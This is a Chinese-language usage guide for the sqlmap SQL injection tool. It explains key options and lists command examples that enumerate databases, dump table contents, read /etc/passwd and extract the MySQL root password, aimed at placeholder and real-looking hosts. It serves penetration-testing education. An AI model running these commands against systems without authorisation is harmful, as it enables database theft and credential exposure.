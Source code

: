 ```yaml
---
title: Net—sqlmap 使用指南
date: 2020-11-19
author: LM
tags: ["网络测试"]
---
```


## 1.sqlmap中部分参数的备注

### 星号（ * ）

在注入的过程中，有时候会存在伪静态的页面，此时可以使用星号表示可能存在注入的部分。sqlmap 可以区分一个 URL 里面的参数来进行注入点测试，但在遇到了一些做了伪静态的网页就无法自动识别了。比如：`'/admin/1/'`，sqlmap 无法自动识别注入点，对于这种网页，可以直接在参数后加上一个星号，手动标注注入位置，如`sqlmap -u "www.baidu.com/admin/1*"`

### --data

使用 post 方式提交时，需要用到 data 参数

### -p

当我们已经事先知道哪一个参数存在注入就可以直接使用 -p 来指定，从而减少运行时间

### --level

不同的 level 等级，当 level 的参数设定为 2 或者 2 以上的时候，sqlmap 会尝试注入 Cookie 参数；当 level 参数设定为 3 或者 3 以上的时候，会尝试对 User-Angent，referer 进行注入。

### --random-agent

使用该参数，sqlmap 会自动的添加 useragent 参数，你也可以用 user-agent 选项指定所需的 agent

### --technique

这个参数可以指定 sqlmap 使用的探测技术，默认情况下会测试所有的方式。支持的探测方式如下：

- B：Boolean-based blind SQL injection（布尔型注入）
- E：Error-based SQL injection（报错型注入）
- U：UNION query SQL injection（可联合查询注入）
- S：Stacked queries SQL injection（可多语句查询注入）
- T：Time-based blind SQL injection（基于时间延迟注入）

## 2.常用的指令

```shell
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11"        # 检查注入点 
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" --dbs  # 列出数据库信息    
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx --tables            # 指定库名, 并列出所有表
sqlmap -u "http://ooxx.com.tw/star_photo.php?artist_id=11" -D xxxxx -T admin --columns  # 指定库名, 并表名列出所有字段
                                                                               
sqlmap -u "注入地址" -v 1 --dbs              # 列出数据库   
sqlmap -u "注入地址" -v 1 --current-db       # 列出当前数据库  
sqlmap -u "注入地址" -v 1 --users            # 列出数据库用户  
sqlmap -u "注入地址" -v 1 --current-user     # 列出当前用户  
sqlmap -u "注入地址" -v 1 --tables -D "数据库"                         # 列出数据库的表名  
sqlmap -u "注入地址" -v 1 --columns -T "表名" -D "数据库"               # 获取表的列名  
sqlmap -u "注入地址" -v 1 --dump -C "字段,字段" -T "表名" -D "数据库"    # 获取表中的数据   
```

## 3.Sqlmap参数使用实例

```shell
# 指定参数注入 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "id" 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -p "cat,id" 
# 指定方法和post的数据 
sqlmap -u "http://192.168.1.47/page.php" --method "POST" --data "id=1&cat=2" 
# 指定cookie,可以注入一些需要登录的地址 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --cookie "COOKIE_VALUE" 
# 指定关键词，也可以不指定。程序会根据返回结果的hash自动判断 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --string "STRING_ON_TRUE_PAGE" 
# 显示指定的文件内容，一般用于php 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --file-read /etc/passwd 
# 执行你自己的sql语句
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --sql-query="SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" 
# union注入 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" --union-check 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --union-use --banner 
# 保存注入过程到一个文件, 支持从文件恢复出注入过程 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 -b -o "sqlmap.log" 
sqlmap -u "http://192.168.1.47/page.php?id=1&cat=2" -v 1 --banner -o "sqlmap.log" --resume
```
